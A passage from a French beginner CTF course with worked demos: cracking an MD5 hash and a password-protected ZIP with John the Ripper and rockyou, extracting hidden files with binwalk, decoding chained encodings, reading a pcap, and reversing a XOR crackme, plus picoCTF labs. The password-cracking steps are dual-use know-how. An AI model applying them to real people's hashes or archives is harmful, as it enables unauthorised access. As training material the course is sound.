| `hashid` | outil qui analyse un hash et propose les algorithmes possibles |
| `-m` | affiche en plus le **mode Hashcat** correspondant (ex. `0` pour MD5) |
| `-j` | affiche en plus le **format John** correspondant (ex. `raw-md5`) |
| `hash.txt` | fichier contenant le hash à analyser |

**Résultat attendu :**

```text
Analyzing '482c811da5d5b4bc6d497ffa98491e38'
[+] MD5 [Hashcat Mode: 0][JtR Format: raw-md5]
[+] MD4 [Hashcat Mode: 900][JtR Format: raw-md4]
[+] ...
```

Parmi les candidats, la longueur 32 et le mode 0 indiquent très probablement **MD5**. (MD5 est le plus répandu pour un hash de 32 hexadécimaux, donc c'est le premier à tester.)

**Étape 2 — Casser le hash avec `john` :**

```bash
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

**Explication ligne par ligne.**

| Élément | Explication |
| ------- | ----------- |
| `john` | John the Ripper, un casseur de mots de passe par dictionnaire et par force brute |
| `--format=raw-md5` | force le format MD5 brut (celui trouvé par `hashid -j`) |
| `--wordlist=/usr/share/wordlists/rockyou.txt` | utilise la liste de mots `rockyou.txt` (des millions de mots de passe réels, livrée avec Kali Linux) |
| `hash.txt` | le fichier contenant le hash |

**Résultat attendu :**

```text
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
password123      (?)
```

**Étape 3 — Afficher le mot de passe trouvé :**

```bash
john --show --format=raw-md5 hash.txt
```

Sortie :

```text
?:password123
```

**Analyse.** Le hash MD5 de « password123 » a été trouvé en quelques secondes : le mot de passe était dans le dictionnaire. C'est la leçon : un mot de passe faible, même haché, se casse avec un dictionnaire. En CTF, le mot de passe trouvé mène souvent à un fichier, une archive ou un login.

**Erreurs fréquentes.**

| Erreur | Symptôme | Cause | Correction |
| ------ | -------- | ----- | ---------- |
| Ne pas spécifier le format | `No password hashes loaded` | john ne reconnaît pas le hash seul | `--format=raw-md5` (ou celui indiqué par `hashid -j`) |
| Wordlist absente | `Could not open file` | `rockyou.txt` manque (livré compressé sous Kali) | `sudo gunzip /usr/share/wordlists/rockyou.txt.gz` |
| Mauvaise identification | john tourne longtemps sans résultat | le type de hash est faux (ex. c'est du SHA-256, pas du MD5) | revérifier avec `hashid` ; tester plusieurs formats |
| Hash avec retour à la ligne | john trouve un mot bizarre incluant un saut de ligne | le fichier `hash.txt` contient un `\n` parasite | `echo -n` à la création ou `tr -d '\n'` |

**Correction d'erreur fréquente.** Si john affiche `No password hashes loaded`, c'est presque toujours le format : relance `hashid -m -j hash.txt`, puis utilise exactement le `JtR Format` affiché en premier.

---

### Démo 2 — Extraire un fichier caché avec `binwalk` et `strings`

**Contexte.** Un défi Forensics te fournit `image_challenge.png`. Il s'affiche normalement comme une image, mais tu soupçonnes que des données y sont cachées.

**Objectif.** Détecter puis extraire un fichier ZIP caché à la fin de l'image, et lire le flag.

**Préparation** (le défi fournit le fichier ; ici on le fabrique pour l'exercice) :

```bash
echo -n "flag{Emb3dded_ZIP}" > flag.txt
zip secret.zip flag.txt
cat defi.png secret.zip > image_challenge.png
```

**Étape 1 — Identifier la vraie nature :**

```bash
file image_challenge.png
```

Sortie :

```text
image_challenge.png: PNG image data, 8 x 8, 8-bit/color RGB, non-interlaced
```

`file` confirme : c'est bien un PNG (l'extension est honnête). Il faut creuser.

**Étape 2 — Chercher les chaînes lisibles :**

```bash
strings -n 6 image_challenge.png
```

**Explication.** `strings` extrait les séquences de caractères imprimables ; `-n 6` ignore celles de moins de 6 caractères (le bruit). Le flag n'apparaît pas ici car il est compressé à l'intérieur du ZIP — mais les fichiers embarqués, eux, sont détectables autrement.

**Étape 3 — Détecter les fichiers emboîtés :**

```bash
binwalk image_challenge.png
```

**Explication ligne par ligne.**

| Élément | Explication |
| ------- | ----------- |
| `binwalk` | outil qui analyse un fichier à la recherche de **signatures** de formats connus (ZIP, PNG, JPEG, PDF…) |
| `image_challenge.png` | le fichier à analyser |

**Résultat attendu :**

```text
DECIMAL  HEXADECIMAL  DESCRIPTION
0        0x0          PNG image, 8 x 8, 8-bit/color RGB, non-interlaced
41       0x29         Zlib compressed data, default compression
74       0x4A         Zip archive data, ... name: flag.txt
237      0xED         End of Zip archive, footer length: 22
```

La ligne `74 0x4A Zip archive data ... name: flag.txt` révèle qu'un ZIP nommé avec `flag.txt` est collé dans l'image.

**Étape 4 — Extraire automatiquement :**

```bash
binwalk -e image_challenge.png
```

**Explication.** `-e` (extract) désassemble automatiquement les fichiers trouvés dans un dossier `_image_challenge.png.extracted/`.

**Résultat attendu :**

```text
DECIMAL  HEXADECIMAL  DESCRIPTION
41       0x29         Zlib compressed data, default compression
74       0x4A         Zip archive data, ... name: flag.txt

# les fichiers extraits :
_image_challenge.png.extracted/flag.txt
```

**Étape 5 — Lire le flag :**

```bash
cat _image_challenge.png.extracted/flag.txt
```

Sortie :

```text
flag{Emb3dded_ZIP}
```

**Analyse.** `file` a confirmé un PNG, `strings` n'a rien donné (contenu compressé), mais `binwalk` a repéré la signature ZIP à l'offset `0x4A` (74 octets — juste après l'en-tête PNG). `binwalk -e` a tout fait automatiquement. Ce trio `file` → `strings` → `binwalk` est la colonne vertébrale du Forensics.

**Erreurs fréquentes.**

| Erreur | Symptôme | Cause | Correction |
| ------ | -------- | ----- | ---------- |
| Se fier à `strings` | aucun flag trouvé alors qu'il existe | le flag est compressé ou encodé dans un fichier emboîté | passer à `binwalk` systématiquement |
| Ignorer l'offset | impossible de localiser les données | on ne sait pas où commence le fichier caché | lire la colonne `DECIMAL`/`HEXADECIMAL` de binwalk |
| Oublier le dossier d'extraction | on ne retrouve pas les fichiers | `binwalk -e` crée un sous-dossier `_<nom>.extracted` | `ls _image_challenge.png.extracted/` |
| ZIP protégé par mot de passe | `unzip` demande un mot de passe | l'auteur a protégé l'archive | `zip2john archive.zip > h.txt` puis `john --wordlist=rockyou.txt h.txt` |

**Correction d'erreur fréquente.** Si `binwalk` ne trouve rien mais que la taille du fichier semble anormale, compare avec `tail -c 100 image_challenge.png` : les données collées à la fin apparaissent en clair.

---

### Démo 3 — Décoder une série d'encodages avec CyberChef

**Contexte.** Un défi Crypto te donne une longue chaîne qui ressemble à du base64, mais après un décodage, tu obtiens encore du charabia. Tu es face à des **encodages successifs**.

**Objectif.** Déterminer la chaîne d'encodages (base64 → hex → ROT13) et retrouver le flag.

**La chaîne à décoder :**

```text
NTM1OTRlNTQ3YjUwMzA1MTMzNWY1YTM0NDY0NzMzNDU3ZA==
```

**Étape 1 — Observation.** La chaîne finit par `==` : c'est le padding caractéristique du **base64**. On décode.

```bash
echo "NTM1OTRlNTQ3YjUwMzA1MTMzNWY1YTM0NDY0NzMzNDU3ZA==" | base64 -d
```

Sortie :

```text
53594e547b503051335f5a34464733457d
```

Uniquement des caractères hexadécimaux (`0-9a-f`), un nombre pair de caractères : c'est de l'**hex**. On convertit les octets hexadécimaux en caractères :

```bash
echo "53594e547b503051335f5a34464733457d" | xxd -r -p
```

Sortie :

```text
SYNT{P0Q3_Z4FG3E}
```

**Étape 2 — Reconnaître ROT13.** Le texte `SYNT{P0Q3_Z4FG3E}` ressemble à un flag… mais avec des lettres « décalées ». `SYNT` est la version ROT13 de `FLAG` (S→F, Y→L, N→A, T→G). On applique ROT13 :

```bash
echo "SYNT{P0Q3_Z4FG3E}" | tr 'A-Za-z' 'N-ZA-Mn-za-m'
```

Sortie :

```text
FLAG{C0D3_M4ST3R}
```

**Explication ligne par ligne.**

| Commande | Explication |
| -------- | ----------- |
| `echo "..."` | fournit la chaîne en entrée |
| `base64 -d` | décode du base64 vers des octets bruts |
| `xxd -r -p` | `xxd` est un hexdump ; `-r` inverse (revient des hexadécimaux aux octets), `-p` (plain) accepte de l'hex « brut » sans colonnes |
| `tr 'A-Za-z' 'N-ZA-Mn-za-m'` | `tr` (translate) remplace chaque lettre par son correspondant ROT13 : `A→N`, `B→O`, …, `M→Z`, `N→A`, … |

**Étape 3 — La méthode CyberChef.** Ouvrir [gchq.github.io/CyberChef](https://gchq.github.io/CyberChef). Dans « Recipe » (recette), ajouter successivement : **From Base64**, **From Hex**, **ROT13**. En collant la chaîne, CyberChef affiche immédiatement `FLAG{C0D3_M4ST3R}`. L'opération **Magic** automatise même la détection : elle essaie les encodages les plus probables et affiche « FLAG{C0D3_M4ST3R} ».

**Analyse.** Ce défi enchaîne trois encodages simples. Chaque décodage produit un format reconnaissable (padding `=` → base64, caractères hex → hex, lettres décalées → ROT13). Aucune clé secrète : c'est de l'encodage pur, pas du chiffrement. La chaîne d'outils en ligne de commande et la recette CyberChef donnent le même résultat — choisis celle que tu préfères.

**Erreurs fréquentes.**

| Erreur | Symptôme | Cause | Correction |
| ------ | -------- | ----- | ---------- |
| S'arrêter au premier décodage | on a du charabia et on cherche une clé | il reste des encodages à appliquer | continuer : hex puis ROT13 |
| Confondre hex et base64 | erreur de décodage | les deux produisent du texte | compter les caractères : hex = paires `0-9a-f`, base64 = `A-Za-z0-9+/` avec `=` |
| Oublier le `-p` de `xxd` | `xxd -r` échoue | il attend un hexdump formaté | ajouter `-p` pour de l'hex pur |
| Modifier le flag | soumission refusée | on a « corrigé » la casse à tort | soumettre exactement tel que décodé |

**Correction d'erreur fréquente.** Si un décodage produit des octets bizarres (caractères non imprimables), le résultat est probablement **encore encodé** — c'est un indice qu'il faut poursuivre, pas un échec.

---

### Démo 4 — Analyser une capture pcap et trouver le flag

**Contexte.** Un défi Forensics fournit `capture.pcap`, un enregistrement de trafic réseau. Quelque part dans les paquets se trouve un échange HTTP suspect.

**Objectif.** Lire la capture, filtrer le trafic, et retrouver le flag dans la réponse HTTP.

**Étape 1 — Vue d'ensemble avec `tshark` :**

```bash
tshark -r capture.pcap
```

**Explication.** `tshark` est la version ligne de commande de Wireshark. `-r` lit un fichier pcap (au lieu de capturer en direct).

**Résultat attendu :**

```text
1   0.000000 192.168.1.20 → 192.168.1.10 TCP 54 50000 → 80 [SYN] Seq=0 Len=0
2   0.001083 192.168.1.10 → 192.168.1.20 TCP 54 80 → 50000 [SYN, ACK] Seq=0 Len=0
3   0.001808 192.168.1.20 → 192.168.1.10 TCP 54 50000 → 80 [ACK] Seq=1 Len=0
4   0.002616 192.168.1.20 → 192.168.1.10 HTTP 124 GET /flag.txt HTTP/1.1
5   0.003877 192.168.1.10 → 192.168.1.20 TCP 139 HTTP/1.1 200 OK
6   0.005023 192.168.1.20 → 192.168.1.10 TCP 54 50000 → 80 [ACK] Seq=65 Len=0
```

Le paquet 4 révèle une requête HTTP `GET /flag.txt` : un serveur web a servi un fichier nommé `flag.txt`. On cible ce trafic.

**Étape 2 — Filtrer le trafic HTTP :**

```bash
tshark -r capture.pcap -Y "http"
```

**Explication.** `-Y` applique un **filtre d'affichage** (comme dans Wireshark) : seuls les paquets HTTP sont affichés.

**Résultat attendu :**

```text
4   0.002616 192.168.1.20 → 192.168.1.10 HTTP 124 GET /flag.txt HTTP/1.1
5   0.003877 192.168.1.10 → 192.168.1.20 TCP 139 HTTP/1.1 200 OK
```

**Étape 3 — Lire le contenu en ASCII avec `tcpdump` :**

```bash
tcpdump -r capture.pcap -A
```

**Explication.** `tcpdump -r` lit le fichier ; `-A` affiche le **contenu des paquets en ASCII** (les caractères lisibles), ce qui fait ressortir les requêtes et réponses HTTP.

**Résultat attendu :**

```text
GET /flag.txt HTTP/1.1
Host: 192.168.1.10
User-Agent: curl/8.5.0

HTTP/1.1 200 OK
Content-Type: text/plain
Content-Length: 24

FLAG{p4ck3t_4n4lyst}
```

**Étape 4 — Le raccourci : `strings` sur la capture :**

```bash
strings capture.pcap | grep -i flag
```

**Explication.** Le flag passe en clair sur le réseau ; `strings` l'extrait du fichier binaire et `grep -i flag` le cherche sans se soucier de la casse.

**Résultat attendu :**

```text
FLAG{p4ck3t_4n4lyst}
```

**Analyse.** La requête `GET /flag.txt` a pointé directement le fichier d'intérêt. La réponse HTTP contient le flag **en clair** (HTTP non chiffré). Cette démo montre la hiérarchie du Forensics réseau : la vue d'ensemble (`tshark`), le filtre (`-Y "http"`), le contenu (`tcpdump -A`), et le raccourci efficace (`strings | grep`).

**Comment reproduire la capture soi-même** (optionnel, sur ta machine, avec un terminal disposant des droits de capture) :

```bash
mkdir /tmp/lab-http && cd /tmp/lab-http
echo "FLAG{p4ck3t_4n4lyst}" > flag.txt
python3 -m http.server 8000 &
tcpdump -i lo -w capture.pcap 'tcp port 8000' &
curl http://127.0.0.1:8000/flag.txt
# puis arrêter les deux processus avec Ctrl+C et analyser capture.pcap
```

**Erreurs fréquentes.**

| Erreur | Symptôme | Cause | Correction |
| ------ | -------- | ----- | ---------- |
| Lire tous les paquets sans filtre | on se noie dans des centaines de lignes | aucun filtre appliqué | `-Y "http"` ou `-Y "tcp.port == 80"` |
| Chercher le flag uniquement dans `strings` | trafic chiffré ou fragmenté | le flag est réparti ou encodé | filtrer avec `tshark -Y` puis examiner le champ `http.file_data` |
| Oublier que le trafic est en clair | on cherche une attaque alors que le flag est visible | HTTP n'est pas chiffré | le flag se lit directement dans la réponse |
| Interpréter les flags TCP | confusion avec des « drapeaux » | le mot flag désigne aussi les bits TCP (SYN, ACK) | contexte : un flag de défi est une chaîne de caractères |

**Correction d'erreur fréquente.** Si le flag n'apparaît pas en ASCII, regarde les champs HTTP avec `tshark -r capture.pcap -Y "http.response" -T fields -e http.file_data` : il affiche le contenu de la réponse, même s'il contient des octets non imprimables.

---

### Démo 5 — Résoudre un crackme simple avec `strings` et `gdb`

**Contexte.** Un défi RE fournit un binaire `crackme` qui affiche « Usage: ./crackme <mot-de-passe> ». Tu dois trouver le mot de passe pour que le programme imprime le flag.

**Objectif.** Analyser le binaire, comprendre la vérification du mot de passe et trouver celui-ci.

**Étape 1 — Identifier le binaire :**

```bash
file crackme
```

Sortie :

```text
crackme: ELF 64-bit LSB pie executable, x86-64, dynamically linked, not stripped
```

C'est un ELF (Executable and Linkable Format) 64 bits pour x86-64. « not stripped » signifie que les symboles (noms de fonctions) sont encore présents : une aubaine.

**Étape 2 — `strings` : les indices visibles :**

```bash
strings -n 6 crackme
```

Sortie (extrait) :

```text
Usage: %s <mot-de-passe>
Bien joue, flag accepte !
Echec, reessaie...
```

Trois messages, mais **aucun mot de passe en clair** : il est obfusqué (caché) dans le code. `strings` seul ne suffit pas.

**Étape 3 — `nm` : les fonctions du programme :**

```bash
nm crackme
```

Sortie (extrait) :

```text
0000000000001159 T check_password
00000000000011d4 T main
```

Il existe une fonction `check_password` (vérifier le mot de passe) : c'est là que tout se joue.

**Étape 4 — `objdump` : lire le désassemblage :**

```bash
objdump -d crackme
```

On isole la fonction `check_password` :

```bash
objdump -d crackme | sed -n '/<check_password>:/,/<main>:/p'
```

**Résultat attendu (extrait commenté) :**

```text
1165:  c7 45 f5 13 19 14 12    movl $0x12141913,-0xb(%rbp)   ; octets: 13 19 14 12
116c:  c7 45 f8 12 05 02 1b    movl $0x1b020512,-0x8(%rbp)   ; octets: 12 05 02 1b
117a:  e8 ...                  call strlen@plt
117f:  48 83 f8 07             cmp $0x7,%rax                 ; mot de passe de 7 lettres
11a2:  0f b6 00                movzbl (%rax),%eax            ; lit le caractère
11a5:  83 f0 55                xor $0x55,%eax                ; XOR avec 0x55  ← la clé
11b8:  39 c2                   cmp %eax,%edx                 ; compare avec l'octet attendu
```

**Analyse du désassemblage.** La fonction stocke un tableau d'octets : `13 19 14 12 05 02 1B`. Pour chaque caractère du mot de passe, elle applique `xor $0x55,%eax` (un « ou exclusif » avec la valeur hexadécimale 0x55) puis compare le résultat au tableau. Le mot de passe est donc : **chaque octet du tableau XORé avec 0x55**.

**Étape 5 — Déduire le mot de passe avec Python :**

```bash
python3 -c "print(bytes([b ^ 0x55 for b in [0x13,0x19,0x14,0x12,0x05,0x02,0x1b]]).decode())"
```

Sortie :

```text
FLAGPWN
```

**Étape 6 — Vérifier avec `gdb` (optionnel mais formateur) :**

```bash
gdb -q ./crackme
```

Puis dans gdb :

```text
(gdb) info functions
(gdb) disassemble check_password
(gdb) break check_password
(gdb) run FLAGPWN
```

**Explication.** `break check_password` pose un point d'arrêt à l'entrée de la fonction ; `run FLAGPWN` lance le programme avec le mot de passe. gdb s'arrête avant la vérification, et tu peux avancer instruction par instruction (`stepi`) pour voir le XOR s'appliquer. C'est la preuve vivante de l'analyse `objdump`.

**Étape 7 — Le résultat final :**

```bash
./crackme FLAGPWN
```

Sortie :

```text
Bien joue, flag accepte !
```

**Analyse.** La chaîne d'analyse a été : `file` (type) → `strings` (indices, pas de mot de passe) → `nm` (fonction `check_password`) → `objdump` (le XOR avec 0x55 révélé dans les instructions) → calcul Python → vérification. Le mot de passe n'était pas en clair, mais il était **obfusqué**, pas chiffré : la clé 0x55 était visible dans le désassemblage.

**Erreurs fréquentes.**

| Erreur | Symptôme | Cause | Correction |
| ------ | -------- | ----- | ---------- |
| Se limiter à `strings` | aucun mot de passe trouvé | il est obfusqué | passer à `nm` puis `objdump` |
| Lire les octets en désordre | tableau inversé | le processeur x86 stocke en **petit-boutiste** (octets inversés dans les mots) | recopier les octets dans l'ordre d'écriture (`13 19 14 12`…) |
| Chercher une clé compliquée | on croit à un chiffrement | c'est un simple XOR | le XOR est visible directement dans l'instruction `xor $0x55` |
| Oublier la longueur | mot de passe trop court/long | la fonction vérifie `strlen == 7` | vérifier la comparaison `cmp $0x7` |

**Correction d'erreur fréquente.** Si ton mot de passe calculé ne fonctionne pas, vérifie que tu as bien XORé dans le bon sens. L'opération XOR est symétrique : `octet ^ 0x55 = attendu` donne `octet = attendu ^ 0x55`. Le calcul est exactement la même opération dans les deux sens.

## Cas réels

> ⚠️ **Légal** — Les scénarios suivants se déroulent exclusivement sur des plateformes CTF autorisées et des machines d'entraînement. Aucun n'implique une cible non autorisée.

---

### Cas réel 1 — « Tu participes à un CTF en équipe : comment répartir les catégories et gérer son temps ? »

**Contexte.** Une compétition CTF de 48 heures débute samedi à 9h. Tu fais partie d'une équipe de 4 : Alice, Bob, Chloé et toi. La grille de style Jeopardy propose 8 catégories et environ 40 défis. L'objectif : maximiser le score final sans s'épuiser.

**Ta mission.** Proposer une répartition des rôles et un planning qui tiennent compte des forces et faiblesses de chacun.

**Résolution.**

**1. Évaluer les forces.** L'équipe fait un point de 20 minutes : chacun liste ses catégories fortes (où il a déjà résolu des défis) et ses faiblesses.

| Membre | Forces | Affectation |
| ------ | ------ | ----------- |
| Alice | Web, Crypto | Web + Crypto |
| Bob | Forensics, OSINT | Forensics + OSINT |
| Chloé | RE, Pwn | RE + Pwn |
| Toi | Recon, Misc, méthode | Misc + coordination + soutien partout |

**2. Stratégie de points.** Les défis à faible pointage (50-100) sont les plus faciles : ils rapportent vite et réchauffent. On commence par **lisser** : chaque membre attaque un défi à 50 points de sa catégorie pendant la première heure.

**3. Gestion du temps sur 48 h.**

| Phase | Horaires | Activité |
| ----- | -------- | -------- |
| Échauffement | H+0 → H+2 | valider 4-5 défis faciles, noter les formats de flag |
| Série médiane | H+2 → H+12 | défis à 100-300 points ; chacun sa catégorie |
| Soutien croisé | H+12 → H+24 | les membres bloqués demandent un « regard neuf » ; pause obligatoire de 6h pour un membre à tour de rôle |
| Finale | H+36 → H+48 | défis durs, vérification des flags non soumis, rédaction des solutions |
| Dépôt | H+47 | tout noter dans le carnet d'équipe, même les échecs |

**4. Règles d'or d'équipe.**

- **Un flag soumis est un flag gagné** : dès qu'un membre trouve un flag, il le soumet immédiatement (pas de thésaurisation).
- **Le canal de communication est partagé** : un seul canal (Discord/Matrix) avec un format par ligne : `[Catégorie] nom-du-défi : avancée` ou `bloqué`.
- **Le carnet d'équipe est partagé** : un document où chacun note ses découvertes (URLs, fichiers, commandes), pour que l'équipe entière en profite.
- **Le « regard neuf »** : une personne bloquée plus de 30 minutes demande de l'aide ; un coéquipier prend le relais 15 minutes. Le cerveau bloqué, c'est du temps perdu.
- **Le sommeil est tactique** : à 48 h, l'équipe qui dort 6 h à tour de rôle fait plus de points que l'équipe épuisée.

**5. Le résultat.** Votre équipe valide 23 défis sur 40 et se classe dans le top 15 % : un très bon score pour une première participation. Le facteur décisif n'a pas été l'exploit individuel mais la **répartition des rôles** et la **discipline de temps**.

**Ce que tu retiens.** Un CTF en équipe, c'est comme un orchestre : chacun a son instrument, mais c'est la coordination qui fait la musique. Connais tes forces, communique, soumets vite, et dors.

---

### Cas réel 2 — « Un challenge forensics de 100 points : quelle méthodologie ? »

**Contexte.** Sur une plateforme d'entraînement, le défi « Hidden in plain sight » (caché en pleine vue) vaut 100 points. Il fournit un seul fichier : `evidence.bin`. L'énoncé : « Le technicien a laissé plusieurs indices dans le fichier. Un seul contient le flag. »

**Ta mission.** Appliquer une méthodologie Forensics complète et ordonnée pour trouver le flag.

**Résolution.**

**1. L'énoncé d'abord.** « Plusieurs indices… un seul contient le flag » : le fichier est probablement un **conteneur** avec plusieurs fichiers emboîtés. C'est un indice fort pour `binwalk`.

**2. La pyramide Forensics (du plus simple au plus complexe).**

| Étape | Commande | Question posée | Résultat de l'exemple |
| ----- | -------- | -------------- | --------------------- |
| 1. Nature | `file evidence.bin` | qu'est-ce que c'est vraiment ? | `data` (fichier brut) |
| 2. Chaînes | `strings -n 6 evidence.bin` | y a-t-il du texte lisible ? | rien d'utile |
| 3. Métadonnées | `exiftool evidence.bin` | y a-t-il des métadonnées ? | non (pas un fichier image) |
| 4. Fichiers emboîtés | `binwalk evidence.bin` | y a-t-il des signatures ? | un PNG et un ZIP détectés |
| 5. Extraction | `binwalk -e evidence.bin` | que contient le dossier extrait ? | `image.png` et `secret.zip` |
| 6. Analyse de l'image | `strings -n 6 image.png` + `exiftool image.png` | où est le flag ? | `exiftool -Comment` affiche `flag{metadata_win}` |
| 7. Archive | `zip2john secret.zip > h.txt` ; `john --wordlist=rockyou.txt h.txt` | le ZIP est-il protégé ? | mot de passe trouvé : `admin123` |
| 8. Lecture | `unzip -P admin123 secret.zip` ; `cat secret/flag.txt` | le second flag | `flag{archive_win}` |

**3. Le choix de la bonne méthode.** La pyramide du Forensics fonctionne comme un **entonnoir** : on part des outils les moins chers (file, strings) vers les plus spécifiques. Chaque étape répond à une question et les résultats se cumulent. Sauter des étapes (par exemple attaquer `binwalk` directement sans `file`) fait perdre des informations : `file` aurait pu révéler que « evidence.bin » est en réalité une image disque.

**4. La vérification finale.** Les deux flags trouvés (métadonnées + archive) : le défi avait bien caché « plusieurs indices ». On soumet celui au format attendu par la plateforme.

**Ce que tu retiens.** Face à un fichier inconnu, la méthode gagne : nature (`file`) → texte (`strings`) → métadonnées (`exiftool`) → emboîtement (`binwalk`) → extraction → outils dédiés. Chaque outil répond à une question précise. Cette pyramide est réutilisable dans 90 % des défis Forensics.

---

## Laboratoires

> ⚠️ **Légal** — Ces TP se déroulent intégralement sur ton propre ordinateur et sur la plateforme gratuite picoCTF (environnement d'entraînement autorisé). Aucune cible externe n'est impliquée.

---

### TP 1 — « Kiosque à challenges » : créer tes propres défis et les résoudre

**Objectif.** Comprendre un challenge « de l'intérieur » : tu vas créer un petit CTF composé de **deux défis** — un flag caché dans une image et un hash à casser — puis les résoudre en tant que joueur. Créer un challenge t'apprend ce que l'organisateur fait (et donc ce que le joueur doit chercher).

**Environnement.** Ton poste Linux (Kali ou Debian/Ubuntu), avec `file`, `strings`, `binwalk`, `exiftool`, `hashid`, `john` installés. Un terminal suffit.

**Étapes.**

**Partie A — Créer le challenge.**

1. Créer un dossier de travail et le flag textuel :
   ```bash
   mkdir -p ~/ctf-maison && cd ~/ctf-maison
   echo -n "flag{Ma_Premiere_Creation}" > flag.txt
   ```

2. Créer un ZIP contenant le flag :
   ```bash
   zip secret.zip flag.txt
   ```

3. Créer une petite image PNG avec Python :
   ```bash
   python3 -c "
   import struct, zlib
   sig=b'\x89PNG\r\n\x1a\n'
   def ch(tag,data):
       return struct.pack('>I',len(data))+tag+data+struct.pack('>I',zlib.crc32(tag+data)&0xffffffff)
   ihdr=ch(b'IHDR',struct.pack('>IIBBBBB',8,8,8,2,0,0,0))
   raw=b''
   for y in range(8): raw+=b'\x00'+b'\xAA\xBB\xCC'*8
   idat=ch(b'IDAT',zlib.compress(raw))
   open('defi.png','wb').write(sig+ihdr+idat+ch(b'IEND',b''))
   "
   ```

4. Cacher le ZIP dans l'image (concaténation) :
   ```bash
   cat defi.png secret.zip > image_challenge.png
   ```

5. Ajouter une métadonnée indice avec `exiftool` :
   ```bash
   exiftool -Comment="Cherche le fichier emboite" image_challenge.png
   ```
   (Exiftool crée un fichier de sauvegarde `image_challenge.png_original` — tu peux le supprimer : `rm image_challenge.png_original`.)

6. Créer le second défi : un hash MD5 d'un mot de passe.
   ```bash
   echo -n "sup3rS3cret" | md5sum | cut -d' ' -f1 > hash.txt
   ```

**Partie B — Résoudre le challenge (rôle du joueur).**

7. Identifier l'image :
   ```bash
   file image_challenge.png
   exiftool -Comment image_challenge.png
   ```
   La métadonnée t'indique de chercher un fichier emboîté.

8. Détecter et extraire :
   ```bash
   binwalk image_challenge.png
   binwalk -e image_challenge.png
   cat _image_challenge.png.extracted/flag.txt
   ```

9. Casser le hash :
   ```bash
   hashid -m -j hash.txt
   john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
   john --show --format=raw-md5 hash.txt
   ```

**Indices (si tu bloques).**

- Indice 1 : le `file` de `image_challenge.png` indique un PNG normal — c'est normal, les données cachées ne changent pas le type principal.
- Indice 2 : `binwalk` affiche « Zip archive data » à un offset : c'est la signature de ton ZIP.
- Indice 3 : le hash fait 32 caractères hexadécimaux — c'est un MD5, mode 0 pour hashcat, `raw-md5` pour john.

**Correction détaillée.**

```bash
# 7. La métadonnée indice :
# Comment: Cherche le fichier emboite

# 8. binwalk détecte le ZIP :
# DECIMAL  HEXADECIMAL  DESCRIPTION
# 74       0x4A         Zip archive data ... name: flag.txt
# → binwalk -e extrait → flag{Ma_Premiere_Creation}

# 9. hashid : MD5 [Hashcat Mode: 0][JtR Format: raw-md5]
# john : sup3rS3cret
```

**Explications.** En créant le challenge, tu as reproduit exactement ce que font les organisateurs : un fichier bénin (`defi.png`), un secret collé à la fin (`secret.zip`), un indice dans les métadonnées, et un hash à casser. Le joueur (toi) a suivi la pyramide Forensics : `file` → `exiftool` → `binwalk` → `binwalk -e` → `john`. La boucle est bouclée : tu sais maintenant ce que cherchent les outils parce que tu sais ce que l'organisateur a fait.

---

### TP 2 — « Parcours picoCTF débutant » : résoudre 5 challenges

**Objectif.** Mettre en pratique les catégories du cours sur **picoCTF**, la plateforme gratuite et éducative (Carnegie Mellon University). Résoudre au moins 5 challenges de niveau débutant couvrant les catégories Web, Crypto, Forensics, General Skills et Reverse Engineering.

**Environnement.** Un navigateur web, un terminal Linux. Compte gratuit sur picoctf.org (la compétition est ouverte toute l'année, et l'archive des challenges précédents est disponible via « Practice »).

**Étapes.**

1. **Créer le compte** sur picoctf.org et rejoindre un jeu/practice.
2. **Comprendre la soumission** : chaque challenge a un champ « Submit flag ». Le format est `picoCTF{...}`.
3. **Choisir 5 challenges** parmi les catégories suivantes, en suivant l'ordre :

| # | Catégorie | Challenge type | Ce que tu mobilises |
| - | --------- | -------------- | ------------------- |
| 1 | General Skills | Obedient Cat | `cat` sur un fichier téléchargé (le flag est dedans) |
| 2 | General Skills | First Find / Big Zip | `grep -r` dans une arborescence de fichiers |
| 3 | Web | Inspect HTML | `curl` ou « inspecter la page » : le flag est dans le code source |
| 4 | Crypto | Mod 26 / Rotation | ROT13, `tr 'A-Za-z' 'N-ZA-Mn-za-m'` |
| 5 | Crypto | Let's Warm Up / base64 | conversion hex et base64 |
| 6 | Forensics | Enhance! | fichier SVG, recherche de texte dans le fichier |
| 7 | Forensics | Scan Surprise | un code QR : `zbarimg` |
| 8 | Reverse Engineering | File Run / Safe Opener | `strings`, Java, décompilation légère |

4. **Pour chaque challenge**, appliquer la méthodologie du cours :
   - Lire l'énoncé.
   - Télécharger le fichier fourni.
   - Identifier avec `file`, `strings`, `curl` selon la catégorie.
   - Extraire le flag, le soumettre au format `picoCTF{...}`.
   - Noter la solution dans ton carnet.

5. **Valider** : une fois 5 flags soumis correctement, écris un court write-up (solution expliquée) pour chacun dans ton carnet de notes.

**Indices.**

- Indice 1 : General Skills, c'est souvent « le flag est dans le fichier » : `strings` et `grep -r` suffisent.
- Indice 2 : Inspect HTML — regarde la source de la page (`curl -s URL` ou clic droit → Inspecter), le flag est dans un commentaire HTML `<!-- ... -->`.
- Indice 3 : Mod 26 s'appelle ainsi car ROT13 est un décalage de 13 (la moitié de 26 lettres) ; applique le `tr` magique.
- Indice 4 : Scan Surprise — un QR code se lit avec `zbarimg fichier.png`.

**Correction détaillée.**

```bash
# Challenge « Obedient Cat » :
curl -sO <URL-du-fichier>        # ou téléchargement depuis la page
cat flag                          # le contenu est un picoCTF{...}

# Challenge « Inspect HTML » :
curl -s <URL-du-challenge> | grep -i "pico\|comment\|flag"

# Challenge « Mod 26 » :
echo "chaîne-rot13" | tr 'A-Za-z' 'N-ZA-Mn-za-m'

# Challenge « Scan Surprise » :
zbarimg code.png

# Challenge « Safe Opener » (Java) :
# le fichier est du Java ; on lit le code source du vérificateur,
# on y trouve la base64 du flag :
echo "cm9vdA==" | base64 -d    # exemple de décodage de base64
```

**Explications.** Ce parcours couvre exactement les réflexes du cours : `strings`/`grep` pour General Skills, lecture du code source pour Web, `tr` pour la crypto par rotation, `zbarimg` pour le QR, et lecture de code pour le RE. picoCTF est conçu pour que les premiers défis soient « des étapes d'échauffement » : ils te font gagner confiance et automatiser les gestes avant la difficulté. Résoudre ces 5 challenges prouve que ta méthode fonctionne sur une vraie plateforme.

---

## Mini Challenges

> ⚠️ **Légal** — Ces défis se résolvent sur des fichiers que tu crées ou sur ta propre machine locale. Aucune cible externe n'est impliquée.

---

